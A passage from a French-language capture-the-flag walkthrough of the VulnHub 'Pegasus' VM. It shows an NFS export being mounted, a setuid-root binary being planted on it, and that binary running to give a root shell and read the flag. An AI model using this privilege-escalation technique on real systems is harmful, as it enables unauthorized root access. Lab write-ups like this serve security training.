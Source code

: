 Ensuite on monte l'export NFS avec `mount 192.168.57.5:/mnt/nfs /mnt` puis on place notre exécutable dedans non sans lui avoir donné le bit setuid root.

A cause du SSH cassé il a fallut compiler le code sur la VM, le transférer vers ma machine via netcat, le recopier sur la VM via le NFS, bref une grosse prise de tête mais au final on y est :

```bash
john@pegasus:/tmp$ cd /opt/nfs/
john@pegasus:/opt/nfs$ ls -al
total 20K
drwxr-xr-x 2 root root 4.0K Dec  8 19:48 .
drwxr-xr-x 5 root root 4.0K Nov 18  2014 ..
-rwsr-xr-x 1 root root 7.1K Dec  8 19:48 rootshell
-rw-r--r-- 1 root root  127 Dec  8 19:42 rootshell.c

john@pegasus:/opt/nfs$ ./rootshell
root@pegasus:/opt/nfs# id
uid=0(root) gid=0(root) groups=0(root),1001(mike)
root@pegasus:/opt/nfs# cd /root
root@pegasus:/root# ls
flag
root@pegasus:/root# file flag
flag: ASCII English text
root@pegasus:/root# cat flag
               ,
               |`\
              /'_/_
            ,'_/\_/\_                       ,
          ,'_/\'_\_,/_                    ,'|
        ,'_/\_'_ \_ \_/                _,-'_/
      ,'_/'\_'_ \_ \'_,\           _,-'_,-/ \,      Pegasus is one of the best
    ,' /_\ _'_ \_ \'_,/       __,-'<_,' _,\_,/      known creatures in Greek
   ( (' )\/(_ \_ \'_,\   __--' _,-_/_,-',_/ _\      mythology. He is a winged
    \_`\> 6` 7  \'_,/ ,-' _,-,'\,_'_ \,_/'_,\       stallion usually depicted
     \/-  _/ 7 '/ _,' _/'\_  \,_'_ \_ \'_,/         as pure white in color.
      \_'/>   7'_/' _/' \_ '\,_'_ \_ \'_,\          Symbol of wisdom and fame.
        >/  _ ,V  ,<  \__ '\,_'_ \_ \'_,/
      /'_  ( )_)\/-,',__ '\,_'_,\_,\'_\             Fun fact: Pegasus was also
     ( ) \_ \|_  `\_    \_,/'\,_'_,/'               a video game system sold in
      \\_  \_\_)    `\_                             Poland, Serbia and Bosnia.
       \_)   >        `\_                           It was a hardware clone of
            /  `,      |`\_                         the Nintendo Famicom.
           /    \     / \ `\
          /   __/|   /  /  `\
         (`  (   (` (_  \   /
         /  ,/    |  /  /   \
        / ,/      | /   \   `\_
      _/_/        |/    /__/,_/
     /_(         /_(


CONGRATULATIONS! You made it :)

Hope you enjoyed the challenge as much as I enjoyed creating it and I hope you
learnt a thing or two while doing it! :)

Massive thanks and a big shoutout to @iMulitia for beta-breaking my VM and
providing first review.

Feel free to hit me up on Twitter @TheKnapsy or at #vulnhub channel on freenode
and leave some feedback, I would love to hear from you!

Also, make sure to follow @VulnHub on Twitter and keep checking vulnhub.com for
more awesome boot2root VMs!
```